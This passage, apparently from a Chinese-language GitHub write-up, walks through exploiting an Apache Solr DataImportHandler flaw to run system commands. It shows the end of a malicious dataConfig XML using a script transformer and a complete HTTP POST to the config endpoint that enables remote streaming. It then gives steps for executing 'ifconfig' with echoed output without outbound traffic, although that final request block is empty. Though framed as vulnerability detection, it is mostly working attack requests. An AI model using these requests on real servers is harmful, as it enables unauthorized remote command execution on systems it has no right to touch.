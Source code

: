 ```
                     transformer="script:poc">
                        <field column="title" xpath="/RDF/item/title" />
             </entity>
        </document>
</dataConfig>
```


### 检测漏洞 - Exploit2

Exploit2使用的数据源类型为 `ContentStreamDataSource`

优点:结果回显 无需出网

缺点:对低版本无法检测 - 因为通过POST请求修改`configoverlay.json`文件中的配置会失败

#### 步骤1-3

步骤1省略

步骤2-3 同上

#### 步骤4

该步骤是为了修改`configoverlay.json`文件中的配置 以启用远程流的相关选项 `.enableStreamBody` `.enableRemoteStreaming`

替换`tika`为索引库名称

```
POST /solr/tika/config HTTP/1.1
Host: 127.0.0.1
Accept: */*
Content-type:application/json
Content-Length: 159
Connection: close

{"set-property": {"requestDispatcher.requestParsers.enableRemoteStreaming": true}, "set-property": {"requestDispatcher.requestParsers.enableStreamBody": true}}
```

响应200即成功(实际测试 8.1可以成功)

响应500即失败(实际测试 某些低版本会失败)

#### 步骤5

发送请求 执行系统命令`ifconfig` 并得到回显 (全程无外连 不出网)

```
```